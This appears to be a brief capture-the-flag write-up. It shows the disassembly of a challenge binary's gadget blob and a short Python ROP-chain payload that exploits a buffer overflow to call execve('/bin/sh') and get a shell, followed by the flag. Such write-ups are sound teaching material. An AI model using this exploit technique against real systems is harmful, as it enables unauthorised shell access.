 ```
  b5:   c3                      ret

0x14000:
   0:   55                      push   rbp
   1:   48 89 e5                mov    rbp,rsp
   4:   48 83 ec 10             sub    rsp,0x10
   8:   48 89 7d f8             mov    QWORD PTR [rbp-0x8],rdi
   c:   48 8b 45 f8             mov    rax,QWORD PTR [rbp-0x8]
  10:   ba 00 00 00 00          mov    edx,0x0
  15:   be 00 00 00 00          mov    esi,0x0
  1a:   48 89 c7                mov    rdi,rax
  1d:   b8 3b 00 00 00          mov    eax,0x3b
  22:   0f 05                   syscall
  24:   90                      nop
  25:   c9                      leave
  26:   c3                      ret
  27:   00 00                   add    BYTE PTR [rax],al
  29:   2f                      (bad)
  2a:   62                      (bad)
  2b:   69 6e 2f 73 68 00 00    imul   ebp,DWORD PTR [rsi+0x2f],0x6873
  32:   00 00                   add    BYTE PTR [rax],al
  34:   00 00                   add    BYTE PTR [rax],al
  36:   5f                      pop    rdi
  37:   c3                      ret
```

There is a buffer overflow (\?) at the function 0x12000. Code blob 0x14000 contains execve() gadget, "/bin/sh" string and pop rdi gadget. The exploit is trivial.

```py
import struct
p = ''
p += struct.pack('<Q', 0x14036)
p += struct.pack('<Q', 0x14029)
p += struct.pack('<Q', 0x14000)
print '$W337k!++y'
print 3
print p
```

Send this payload to get a shell. Flag is `flag{what a lovely kitty!}`.

